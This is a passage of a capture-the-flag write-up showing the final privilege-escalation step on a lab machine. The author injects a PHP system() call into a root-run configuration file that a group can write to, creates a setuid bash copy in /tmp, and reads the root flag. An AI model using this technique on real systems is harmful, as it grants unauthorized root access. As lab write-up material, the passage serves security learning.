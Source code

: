 ```
albert@alert:~$ cat -n /opt/website-monitor/monitor.php
```
```
<SNIP>
    17  include('config/configuration.php');
<SNIP>    
```
Additionally `monitor.php` includes `config/configuration.php` which our current user can modify as he belongs to `management` group.

```
albert@alert:~$ ls -la /opt/website-monitor/config/
total 12
drwxrwxr-x 2 root management 4096 Oct 12 04:17 .
drwxrwxr-x 7 root root       4096 Oct 12 01:07 ..
-rwxrwxr-x 1 root management   49 Nov  5 14:31 configuration.php
```

What is left is bascially adding some root shell spawing code to `configuration.php`. The file itself contains single definition (for `PATH` constant).
```
cat /opt/website-monitor/config/configuration.php
```
```
<?php
define('PATH', '/opt/website-monitor');
?>
```

Knowing all that let's write one last exploit for this challenge.
```
albert@alert:~$ echo "<?php system('cp /bin/bash /tmp/root_shell && chmod a+s /tmp/root_shell'); define('PATH', '/opt/website-monitor');?>" > /opt/website-monitor/config/configuration.php && \
> sleep 5 && \
> /tmp/root_shell -p
root_shell-5.0# whoami
root
```

Privilages escalated! Let's grab root flag and logout.
```
root_shell-5.0# cat /root/root.txt 
********************************
```